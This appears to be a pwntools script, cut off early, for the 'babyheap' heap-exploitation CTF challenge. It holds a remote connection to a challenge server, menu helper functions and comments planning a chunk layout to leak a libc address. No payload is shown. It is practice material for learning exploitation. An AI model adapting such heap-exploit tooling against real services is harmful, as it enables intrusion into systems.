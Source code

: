 ```python
from pwn import *
context.arch='amd64'
# context.log_level='DEBUG'

# p = process('./babyheap')
p = remote('node3.buuoj.cn',29471)
elf = ELF('./babyheap',checksec=False)

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,'\0'))
uu64    = lambda data               :u64(data.ljust(8,'\0'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))

def allocate(size):
    ru("Command: ")
    sl('1')
    ru('Size:')
    sl(str(size))

def fill(index,size,content):
    ru("Command: ")
    sl('2')
    ru("Index: ")
    sl(str(index))
    ru("Size: ")
    sl(size)
    ru("Content: ")
    sl(content)

def free(index):
    ru("Command: ")
    sl('3')
    ru("Index: ")
    sl(str(index))

def dump(index):
    ru("Command: ")
    sl('4')
    ru("Index: ")
    sl(str(index))
    ru("Content: \n")
    # puts,which will put '\n'
    data = ru('\n')
    return data

def dbg():
    gdb.attach(p)
    pause()

# allocate 5 chunks include one small bin and four fast bins,
# one for padding next chunk's bk point to small bin,
# and one for it's bk point to small bin,
# and one for make pre fast bin'bk point to small bin,
# and one for padding the small bin to pass check,
# the small bin for leak


```